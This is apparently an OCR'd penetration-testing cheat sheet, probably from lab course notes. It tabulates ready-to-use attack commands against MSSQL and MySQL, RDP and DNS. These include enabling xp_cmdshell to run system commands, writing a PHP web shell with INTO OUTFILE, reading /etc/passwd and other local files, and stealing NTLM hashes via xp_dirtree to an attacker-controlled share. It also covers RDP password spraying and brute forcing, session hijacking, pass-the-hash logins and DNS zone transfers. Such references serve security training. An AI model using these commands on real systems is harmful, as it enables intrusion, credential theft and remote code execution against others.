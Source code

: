 | `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the xp_dirtree command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the xp_subdirs command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL. |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL. |

## Attacking RDP

| Command | Description |
|---------|-------------|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using rdesktop in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |

## Attacking DNS

| Command | Description |
|---------|-------------|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

## Attacking Email Services
